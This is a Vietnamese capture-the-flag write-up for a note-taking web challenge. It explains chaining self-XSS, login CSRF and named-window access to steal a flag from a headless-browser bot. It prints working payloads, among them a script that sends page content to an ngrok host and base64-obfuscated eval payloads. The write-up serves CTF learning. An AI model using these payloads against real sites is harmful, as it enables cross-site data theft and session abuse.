

# noted
## Description
I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.
## Solution
Bài này cho mình sẵn source code, nhưng mà theo kinh nghiệm thì nên thử hết các feature truớc đã giống như đang đấm blackbox truớc khi đọc sourcecode.

Chall mở đầu bằng trang login:



Register cred bất kì và vào dashboard: 


ở đây có 1 mục tạo noted ( bị dính xss) và 1 mục report URL. Nhưng mà tất cả chỉ dừng lại ở self xss, thôi thì tạm thời thế đã giờ thì review source nào =))))


Đáng lưu ý nhất là ở ``report.js``

```
const crypto = require('crypto');
const puppeteer = require('puppeteer');

async function run(url) {
	let browser;

	try {
		module.exports.open = true;
		browser = await puppeteer.launch({
			headless: true,
			pipe: true,
			args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
			slowMo: 10
		});

		let page = (await browser.pages())[0]

		await page.goto('http://0.0.0.0:8080/register');
		await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
		await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');

		await Promise.all([
			page.click('[type="submit"]'),
			page.waitForNavigation({ waituntil: 'domcontentloaded' })
		]);

		await page.goto('about:blank')
		await page.goto(url);
		await page.waitForTimeout(7500);

		await browser.close();
	} catch(e) {
		console.error(e);
		try { await browser.close() } catch(e) {}
	}

	module.exports.open = false;
}

module.exports = { open: false, run }
```
 
con puppeteer bot này dùng headless browser với flag ``--no-sandbox``. Đầu tiên nó sẽ tạo tài khoản bất kì, và tạo 1 note chứa flag trong session tkhoan đó. sau đó thay đổi address thành ``about:blank`` và rồi browse đến url mà mình gửi

Có 1 số điểm đáng lưu ý ở đây:
- cookie không phỉa là http-only -> có thể steal
- trang report không đuợc sàng lọc
- Dính XSS khi tạo notes
- chỉ có tạo note mới thêm csrf ( login và register thì không)


Thông thuờng thì mình có thể khai thác ``self-XSS`` bằng cách sẽ là sử dụng ``CSRF`` để ``POST`` cái login form vào tài khoản của mình để trigger xss. Nhưng mà account con bot sử dụng đưọc tạo random và khi tạo noted thì lại cần thêm csrf nên cách này sẽ ko thành công. Ngoài ra theo như hint đề bài ``There's more than just HTTP(S)!`` mình còn nghĩ đến chrome devtool protocol như là truy cập voà ``json/list`` của port 9222 rồi exploit tiếp cái websocketdebugurl But no hope :D

Nhưng có 1 điểm đặc biệt ở đây, nếu 2 windows X và Y có cùng một ``document.domain``, miễn là chúng lquan đến nhau thì chúng có thể access vào DOM của nhau :DD. Cụ thể nếu X là trang chứa flag rồi sau đó B login vào cred bị dính self-XSS thì B vẫn có thể đọc DOM từ A ( dùng window.open) để lấy flag


Reference: [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/domain)

Nhưng mà nếu mà mình muốn gửi POST login thì mình cũng phải chuyển huớng bot đến internet mà đề bài thì lại bảo (``Note that the headless browser used for the "report" feature does not have access to the internet.``). Nma cuối cùng là bịp,vì mình vẫn truy cập dc :D.

Đặc biệt, ở trang report, có vẻ nó không check format của url, tức là ta có thể đấm như thế này ``data:text/html,<script>alert(1)</script>``, ngoài ra ta còn có thể mở window mới để lấy CSRF

Nói chung huớng đi sẽ là
- Ở trang dính self-XSS, mình sẽ viết payload fetch dữ liệu từ window chứa flag và send nó đến ngrok để đọc
- Ở trang ``/report``, ta sẽ gửi payload như sau:
  - Mở window mới với url là trang notes mà chứa flag và đặt tên cho nó (vd: ``flag``)
  - login vào account của mình
  - ``window.location`` trang ``/notes?flag``, lúc này mình sẽ trigger đưọc xss và sẽ fetch đưọc content của trang test

Script fetch dữ liệu:
```
<script>
  if (window.location.search.includes('flag'))
    window.location = 'http://29a5-2402-800-61b1-c507-ae7e-98e9-c6f1-8e15.ngrok.io/?' + window.open('', 'flag').document.body.textContent
</script>

```
note: nên thêm điều kiện check đúng window tên ``flag`` mới fetch chứ ko nó fetch hết mỗi khi mình chui voà ``/notes`` :D

Payload đấm cái url:
```
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=c target=_blank>
  <input type="text" name="username" value="hacker"><input type="text" name="password" value="1">
</form>
<script>
  window.open('http://0.0.0.0:8080/notes', 'flag');
  setTimeout("c.submit()", 1000);
  setTimeout("window.location='http://0.0.0.0:8080/notes?flag'", 1500);
</script>
```


# Solution tham khảo thêm:
Nếu như đúng như description, thì con bot ko có khả năng truy cập external network. Vậy huớng làm ở đây sẽ là:
- Vì bị dính self XSS khi tạo note, mình sẽ viết 1 payload với nhiệm vụ ném script của mình đến window đưọc tạo sau gọi là "flag", cụ thể script sẽ thực hiện:
  - tạo 1 iframe chứa form tạo note bằng cách ``src="/new"``
  - điền vào form content của document của window "flag" 
  - submit form
- ở trang ``/report``, ta sẽ tạo 1 payload với 2 feature:
  - login tài khoản của mình ở trang ``about:blank``
  - window.open("http://0.0.0.0:8080","flag"); (cái này sẽ thực hiện truớc)

Giải thích:

Giải sử mình biết đưọc 1 window.name là ``"A"``, và nếu mình thực hiện ``window.open("javascript:console.log('bingo')" ,"A")`` thì nó sẽ thực hiện câu lệnh console.log đó ở trên window ``"A"`` đang đuợc mở sẵn. :D Đây chính là mấu chốt của solution này. 

Mình sẽ có thể trigger đuợc đoạn script ở trang noted đang bị dính self XSS và cho nó thực thi ở window ``flag``  thông qua ``window.open("..","flag")``

Và bởi vì ta set timeout cho payload login truớc khi ta exec lệnh ``window.open()``, cho nên ``window.open()`` sẽ đuợc thực thi truớc và vẫn giữ content chứa flag mặc dù cái cred sau khi login sẽ ảnh huởng tới cả 2 window

Thế là xong ròi, sau khi con bot đăng nhập voà account của mình ( nơi chứa mã self-xss), Giờ trang này sẽ cùng context với trang "flag" và cũng là trang gốc của nó. Và bởi vì mình đã thay đổi cred, nên mình sẽ tạo đuợc note mới với csrf token phù hợp trong khi window ``flag`` vẫn giữ đưọc content cũ.

Payload self-XSS truớc khi convert sang b64:
```
function cre(n) {
var sc = document.createElement("iframe");
sc.id = n;
sc.src = "/new";
document.body.appendChild(sc);
};
function payload(n, v) {
document.getElementById("a").contentDocument.forms[0][1].value=n;
document.getElementById("a").contentDocument.forms[0][2].value=v;
document.getElementById("a").contentDocument.forms[0].submit();
console.log("did it");   
}
setTimeout(() => cre("a"), 1000);
setTimeout(() => payload("flag", document.body.getElementsByTagName("p")[0].innerHTML), 2000);
```

final payload:
```
<script>
window.open("javascript:eval(atob('ZnVuY3Rpb24gY3JlKG4pIHsKdmFyIHNjID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgiaWZyYW1lIik7CnNjLmlkID0gbjsKc2Muc3JjID0gIi9uZXciOwpkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHNjKTsKfTsKZnVuY3Rpb24gcGF5bG9hZChuLCB2KSB7CmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJhIikuY29udGVudERvY3VtZW50LmZvcm1zWzBdWzFdLnZhbHVlPW47CmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJhIikuY29udGVudERvY3VtZW50LmZvcm1zWzBdWzJdLnZhbHVlPXY7CmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJhIikuY29udGVudERvY3VtZW50LmZvcm1zWzBdLnN1Ym1pdCgpOwpjb25zb2xlLmxvZygiZGlkIGl0Iik7ICAgCn0Kc2V0VGltZW91dCgoKSA9PiBjcmUoImEiKSwgMTAwMCk7CnNldFRpbWVvdXQoKCkgPT4gcGF5bG9hZCgiZmxhZyIsIGRvY3VtZW50LmJvZHkuZ2V0RWxlbWVudHNCeVRhZ05hbWUoInAiKVswXS5pbm5lckhUTUwpLCAyMDAwKTs='));", "flag");
</script>
```

payload gửi ở ``/report`` truớc khi convert b64:
```
<html><head><title>Page fron report URL data</title></head>
<body>
<h1>Login</h1>
<form id="myForm" action="http://0.0.0.0:8080/login" method="POST">
    <input type="text" name="username" placeholder="username" value="hacker">
    <input type="password" name="password" placeholder="password" value="1">
    <input type="submit" value="Submit">
</form>
<script>
setTimeout(() => document.getElementById("myForm").submit(),"1000");
</script>
</body>
</html>
```

final payload:
```
javascript:document.write(atob("PGh0bWw+PGhlYWQ+PHRpdGxlPlBhZ2UgZnJvbiByZXBvcnQgVVJMIGRhdGE8L3RpdGxlPjwvaGVhZD4KPGJvZHk+CjxoMT5Mb2dpbjwvaDE+Cjxmb3JtIGlkPSJteUZvcm0iIGFjdGlvbj0iaHR0cDovLzAuMC4wLjA6ODA4MC9sb2dpbiIgbWV0aG9kPSJQT1NUIj4KICAgIDxpbnB1dCB0eXBlPSJ0ZXh0IiBuYW1lPSJ1c2VybmFtZSIgcGxhY2Vob2xkZXI9InVzZXJuYW1lIiB2YWx1ZT0iaGFja2VyIj4KICAgIDxpbnB1dCB0eXBlPSJwYXNzd29yZCIgbmFtZT0icGFzc3dvcmQiIHBsYWNlaG9sZGVyPSJwYXNzd29yZCIgdmFsdWU9IjEiPgogICAgPGlucHV0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlN1Ym1pdCI+CjwvZm9ybT4KPHNjcmlwdD4Kc2V0VGltZW91dCgoKSA9PiBkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgibXlGb3JtIikuc3VibWl0KCksIjEwMDAiKTsKPC9zY3JpcHQ+CjwvYm9keT4KPC9odG1sPg=="));window.open("http://0.0.0.0:8080","flag");
```

